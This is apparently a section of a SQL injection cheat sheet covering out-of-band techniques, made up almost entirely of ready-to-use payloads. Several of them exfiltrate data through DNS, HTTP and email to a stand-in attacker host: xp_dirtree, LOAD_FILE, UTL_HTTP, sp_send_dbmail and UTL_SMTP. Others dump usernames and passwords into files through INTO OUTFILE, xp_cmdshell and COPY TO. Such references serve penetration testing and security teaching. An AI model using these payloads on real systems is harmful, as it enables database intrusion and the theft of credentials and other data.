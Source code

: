 ## Out-of-Band SQL Injection

Out-of-band injection uses different communication channels to extract data, typically when in-band techniques are not possible.

### DNS Exfiltration

Uses DNS queries to extract data from the database.

#### DNS-Based Data Extraction
```sql
-- SQL Server with xp_dirtree
'; EXEC xp_dirtree '\\' + (SELECT user_name()) + '.attacker-domain.com\share'--

-- MySQL with LOAD_FILE (Windows)
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT user()), '.attacker-domain.com\\share'))--

-- Oracle with UTL_HTTP
' AND UTL_HTTP.request('http://attacker-domain.com/collect?data=' || user) IS NOT NULL--
```

#### HTTP-Based Exfiltration
```sql
-- SQL Server with UTL_HTTP (if available)
' UNION SELECT UTL_HTTP.request('http://attacker-domain.com/collect?data=' || user_name())--

-- Custom stored procedure for HTTP requests
'; EXEC sp_send_http_request 'http://attacker-domain.com/collect', (SELECT @@version)--
```

### File-Based Out-of-Band

Writes data to files accessible by the attacker.

#### File Writing Techniques
```sql
-- MySQL INTO OUTFILE
' UNION SELECT username, password FROM users INTO OUTFILE '/var/www/html/dump.txt'--

-- SQL Server with xp_cmdshell and echo
'; EXEC xp_cmdshell 'echo ' + (SELECT user_name()) + ' > c:\temp\output.txt'--

-- PostgreSQL COPY TO
' UNION SELECT username FROM users; COPY (SELECT password FROM users) TO '/tmp/passwords.txt'--
```

### Email-Based Exfiltration

Uses database mail functions to send data via email.

#### Email Exfiltration Examples
```sql
-- SQL Server Database Mail
'; EXEC msdb.dbo.sp_send_dbmail 
    @recipients = 'attacker@domain.com',
    @subject = 'Data Exfiltration',
    @body = (SELECT @@version)--

-- Oracle UTL_SMTP
' AND UTL_SMTP.send_email('attacker@domain.com', 'Database Info', (SELECT user FROM dual)) IS NOT NULL--
```
